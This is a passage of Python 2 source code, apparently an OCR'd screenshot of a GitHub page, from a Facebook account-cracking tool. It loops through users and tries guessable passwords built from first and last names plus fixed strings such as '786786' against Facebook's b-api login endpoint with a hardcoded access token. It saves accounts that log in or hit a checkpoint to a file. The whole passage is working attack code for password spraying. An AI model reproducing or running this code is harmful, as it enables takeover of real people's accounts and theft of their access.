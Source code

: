 								print '\x1b[1;92m[DONE] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass3 + ' ⚡ ' + b['name']
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;36;40m[Sher Cp] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass3 + ' ⚡ ' + b['name']
									cek = open("out/CP.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass4)
								else:
									pass4 = b['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92m[DONE] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass4 + ' ⚡ ' + b['name']
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;36;40m[CHECKPOINT] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass4 + ' ⚡ ' + b['name']
											cek = open("out/CP.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = '786786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92m[DONE] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass5 + ' ⚡ ' + b['name']
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;36;40m[CHECKPOINT] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass5 + ' ⚡ ' + b['name']
													cek = open("out/CP.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92m[DONE] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass6 + ' ⚡ ' + b['name']
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;36;40m[CHECKPOINT] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass6 + ' ⚡ ' + b['name']
															cek = open("out/CP.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()